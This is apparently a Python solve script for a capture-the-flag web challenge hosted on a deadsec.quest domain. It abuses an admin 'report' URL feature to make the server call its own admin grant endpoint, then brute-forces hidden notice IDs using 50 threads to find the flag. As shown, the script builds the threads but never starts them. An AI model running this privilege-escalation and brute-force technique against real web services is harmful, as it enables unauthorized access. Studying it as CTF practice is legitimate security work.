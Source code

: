```py
import requests
import re
import threading

# url = "http://127.0.0.1:1337/"
url = "https://eb7655042aed5ebaba63a259.deadsec.quest/"
creds = {"username": "oz", "password": "oz", "personalColor": "blue"}
access_token = ""
flag_id = ""

s = requests.Session()

requests.post(url + "auth/register", json=creds)
r = s.post(url + "auth/login", json=creds)
s.cookies.set("accessToken", r.json()["accessToken"])

s.get(
    url
    + f"admin/report?url=http://localhost:1337/admin/grant?username={creds['username']}"
)

s.cookies.clear()
r = s.post(url + "auth/login", json=creds)
s.cookies.set("accessToken", r.json()["accessToken"])

r = s.get(url + "admin/notice")
ids = re.findall(r"notice/([a-f0-9]+)", r.text)
print(ids)


def get_id(id):
    global s
    try:
        r = s.get(url + f"admin/notice/{id}")
    except:
        return get_id(id)
    return r


def process_id(id):
    r = get_id(id)
    if "flag" in r.text:
        print()
        print(r.text)
        exit()
    print(id, end="\r")


threads = []
max_threads = 50

for b1, b2 in zip(ids[0], ids[1]):
    if b1 == b2:
        flag_id += b1
    else:
        flag_id += "#"
flag_id = flag_id[:-1] + "9"  # last char is always 9

for i in range(0, 0xFF):  # we could use itertools.product but it's not necessary

    id = flag_id.replace("##", hex(i)[2:])
    t = threading.Thread(target=process_id, args=(id,))
    threads.append(t)
```
